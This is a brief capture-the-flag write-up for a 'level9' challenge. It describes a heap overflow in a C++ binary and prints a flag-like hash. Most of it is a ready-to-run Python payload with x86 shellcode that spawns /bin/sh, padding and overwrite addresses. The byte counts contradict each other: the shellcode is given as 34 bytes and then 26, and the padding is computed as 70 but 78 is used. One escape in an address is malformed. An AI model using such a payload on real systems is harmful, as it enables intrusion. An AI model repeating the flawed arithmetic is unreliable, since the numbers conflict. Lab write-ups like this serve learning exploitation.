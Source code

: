 level9:c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a

C++ code
expects an argument

new of `0x6c` bytes

function that copy the entire first argument at `0x0804a00c`

offset 108, we have to insert an address which point a shellcode

payload => (`0x0804a00c` + 0x4) + (shellcode 34 bytes long) + padding + `0x0804a00c`
108 - (4 + 26) = 108 - 30 = 70 paddings bytes

payload = `$(python -c 'print "\x10\xa0\x04\x08" + "\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x53\x89\xe1\x89\xc2\x6a\x0b\x58\xcd\x80" + "A" * 78 + "\x0c\xa0\04\x08"')`
